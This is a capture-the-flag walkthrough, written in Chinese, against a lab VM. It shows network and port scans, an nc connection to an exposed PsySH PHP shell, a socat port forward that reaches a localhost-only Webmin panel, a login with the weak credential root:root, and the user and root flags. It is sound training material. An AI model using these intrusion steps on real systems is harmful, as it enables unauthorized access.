## 网段扫描
```
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:df:e2:a7, IPv4: 192.168.26.128
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.26.1    00:50:56:c0:00:08       (Unknown)
192.168.26.2    00:50:56:e8:d4:e1       (Unknown)
192.168.26.196  00:0c:29:74:4f:18       (Unknown)
192.168.26.254  00:50:56:e5:dc:17       (Unknown)

5 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.903 seconds (134.52 hosts/sec). 4 responded
```

## 端口扫描

```
└─# nmap -p- -sC -sV 192.168.26.196
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-21 09:05 EST
Nmap scan report for 192.168.26.196 (192.168.26.196)
Host is up (0.0012s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp   open  http        nginx 1.22.1
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.22.1
3000/tcp open  nagios-nsca Nagios NSCA
MAC Address: 00:0C:29:74:4F:18 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 214.30 seconds
```

## 获取webshell
  
  
```
└─# nc 192.168.26.196 3000         
Psy Shell v0.12.4 (PHP 8.2.20 — cli) by Justin Hileman
Unable to check for updates
```
```
> id
id

   Error  Undefined constant "id".

> HELP
HELP

   Error  Undefined constant "HELP".

> ?
?
WARNING: terminal is not fully functional
Press RETURN to continue 

  help       Show a list of commands. Type `help [foo]` for information about [f
oo].      Aliases: ?                     
  ls         List local, instance or class variables, methods and constants.    
          Aliases: dir                   
  dump       Dump an object or primitive.                                       
                                         
  doc        Read the documentation for an object, class, constant, method or pr
operty.   Aliases: rtfm, man             
  show       Show the code for an object, class, constant, method or property.  
                                         
  wtf        Show the backtrace of the most recent exception.                   
          Aliases: last-exception, wtf?  
  whereami   Show where you are in the code.                                    
                                         
  throw-up   Throw an exception or error out of the Psy Shell.                  
                                         
  timeit     Profiles with a timer.                                             
                                         
  trace      Show the current call stack.                                       
                                         
  buffer     Show (or clear) the contents of the code input buffer.             
          Aliases: buf                   
  clear      Clear the Psy Shell screen.                                        
                                         
  edit       Open an external editor. Afterwards, get produced code in input buf
fer.                                     
  sudo       Evaluate PHP code, bypassing visibility restrictions.              
                                         
  history    Show the Psy Shell history.                                        
          Aliases: hist                  
  exit       End the current session and return to caller.                      
          Aliases: quit, q               
> 
```
  
  
  
  
>地址：https://psysh.org/?source=post_page-----2709cd121255--------------------------------
>
  
  
  
  

>跑一下id ssh 密码
>
  
  

## 提权
```
alfred@psymin:~$ id
uid=1000(alfred) gid=1000(alfred) grupos=1000(alfred)
alfred@psymin:~$ sudo -l
-bash: sudo: orden no encontrada
alfred@psymin:~$ 
```
  
```
alfred@psymin:~$ ./socat TCP-LISTEN:8080,fork TCP4:127.0.0.1:10000 &
[1] 1937
alfred@psymin:~$ ss -lnput
Netid             State              Recv-Q             Send-Q                         Local Address:Port                            Peer Address:Port             Process                                      
udp               UNCONN             0                  0                                    0.0.0.0:68                                   0.0.0.0:*                                                             
udp               UNCONN             0                  0                                    0.0.0.0:10000                                0.0.0.0:*                                                             
tcp               LISTEN             0                  4096                               127.0.0.1:10000                                0.0.0.0:*                                                             
tcp               LISTEN             0                  5                                    0.0.0.0:8080                                 0.0.0.0:*                 users:(("socat",pid=1937,fd=5))             
tcp               LISTEN             0                  5                                    0.0.0.0:3000                                 0.0.0.0:*                 users:(("socat",pid=450,fd=5))              
tcp               LISTEN             0                  511                                  0.0.0.0:80                                   0.0.0.0:*                                                             
tcp               LISTEN             0                  128                                  0.0.0.0:22                                   0.0.0.0:*                                                             
tcp               LISTEN             0                  511                                     [::]:80                                      [::]:*                                                             
tcp               LISTEN             0                  128                                     [::]:22                                      [::]:*                                                             
alfred@psymin:~$ 
```
  
  

>跑了脚本没有东西，得手找webmin的东西
>
>密码弱口令：root:root
>
  


>好了这个靶机结束


>userflag:e12853c615d191efce15c726a0684754
>
>rootflag:8968662c86171f7a5afe387a949fe665
>